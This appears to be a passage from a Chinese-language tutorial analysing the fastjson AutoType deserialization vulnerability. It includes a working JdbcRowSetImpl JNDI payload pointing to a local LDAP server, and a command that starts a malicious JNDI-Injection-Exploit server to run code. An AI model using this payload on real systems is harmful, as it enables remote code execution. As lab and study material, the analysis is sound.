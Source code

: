 ```
//Student.java

package test;

public class Student `{`
    public String name;
    private int age;

    public String getName() `{`
        return name;
    `}`
    public void setName(String name) `{`
        this.name = name;
    `}`
    public int getAge() `{`
        return age;
    `}`
    public void setAge(int age) `{`
        this.age = age;
    `}`
`}`
```



## 0x02 漏洞由来

fastjson的漏洞主要都是因为AutoType造成的，后续的修复和其他版本的绕过都围绕此来进行。

fastjson在进行序列化时会扫描目标的get方法，并将字段的值序列化到JSON字符串中。而当一个类中包含了一个接口（或抽象类）的时，在使用fastjson进行序列化的时候，会将其子类型抹去，只保留接口（或抽象类）的类型，这就导致及逆行反序列化时无法得到原始的类型。为了解决这个问题，fastjson在JSON字符串中添加了[@type](https://github.com/type)标识（AutoType功能），标注了类对应的原始类型，也就可以在反序列化的时候可以找到具体类型。

在1.2.25之前，AutoType是默认开启，而且没有任何防护，我们只需要传入一个恶意类，配合java反射机制和rmi或者ldap服务就可以实现RCE。在1.2.25中修复，添加了checkAutotype，被绕过后又不断丰富黑白名单直到今天。我们详细一点点分析。



## 0x03 两条调用链分析

### <a class="reference-link" name="%E5%88%A9%E7%94%A8JdbcRowSetImpl%E7%B1%BB%E8%BF%9B%E8%A1%8CRCE"></a>利用JdbcRowSetImpl类进行RCE

<a class="reference-link" name="%E4%B8%80%E3%80%81%E7%8E%AF%E5%A2%83%E6%90%AD%E5%BB%BA"></a>**一、环境搭建**

使用IDEA和JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar（用来搭建rmi和ldap服务）。
- 新建maven项目后添加1.2.23版本fastjson的依赖，之后添加com.fj.learnFJ.java。
```
package com.fj;

import com.alibaba.fastjson.JSON;

public class learnFJ `{`
        public static void main(String args[])`{`
                String payload = "`{`\"@type\":\"com.sun.rowset.JdbcRowSetImpl\",\"dataSourceName\":\"ldap://127.0.0.1:1389/Exploit\"," +
                        " \"autoCommit\":true`}`";
                JSON.parse(payload);
        `}`
`}`
```
- 使用JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar搭建服务。
```
java -jar .\JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C calc -A 127.0.0.1
```
